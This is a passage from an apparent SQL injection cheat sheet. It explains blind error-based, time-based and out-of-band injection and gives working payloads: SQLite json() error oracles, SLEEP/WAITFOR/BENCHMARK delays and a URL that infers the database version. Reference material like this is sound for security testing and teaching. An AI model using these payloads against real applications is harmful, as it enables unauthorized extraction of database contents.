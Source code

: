 
### Blind Error Based Injection

Attacks rely on sending an SQL query to the database, making the application return a different result depending on whether the query returned successfully or triggered an error. In this case, we only infer the success from the server's answer, but the data is not extracted from output of the error.


**Example**: Using `json()` function in SQLite to trigger an error as an oracle to know when the injection is true or false.

```sql
' AND CASE WHEN 1=1 THEN 1 ELSE json('') END AND 'A'='A -- OK
' AND CASE WHEN 1=2 THEN 1 ELSE json('') END AND 'A'='A -- malformed JSON
```


### Time Based Injection

Time-based SQL Injection is a type of blind SQL Injection attack that relies on database delays to infer whether certain queries return true or false. It is used when an application does not display any direct feedback from the database queries but allows execution of time-delayed SQL commands. The attacker can analyze the time it takes for the database to respond to indirectly gather information from the database.

* Default `SLEEP` function for the database

```sql
' AND SLEEP(5)/*
' AND '1'='1' AND SLEEP(5)
' ; WAITFOR DELAY '00:00:05' --
```

* Heavy queries that take a lot of time to complete, usually crypto functions.

```sql
BENCHMARK(2000000,MD5(NOW()))
```

Let's see a basic example to recover the version of the database using a time based sql injection.

```sql
http://example.com/item?id=1 AND IF(SUBSTRING(VERSION(), 1, 1) = '5', BENCHMARK(1000000, MD5(1)), 0) --
```

If the server's response is taking a few seconds before getting received, then the version is starting is by '5'.


### Out of Band (OAST)

Out-of-Band SQL Injection (OOB SQLi) occurs when an attacker uses alternative communication channels to exfiltrate data from a database. Unlike traditional SQL injection techniques that rely on immediate responses within the HTTP response, OOB SQL injection depends on the database server's ability to make network connections to an attacker-controlled server. This method is particularly useful when the injected SQL command's results cannot be seen directly or the server's responses are not stable or reliable. 
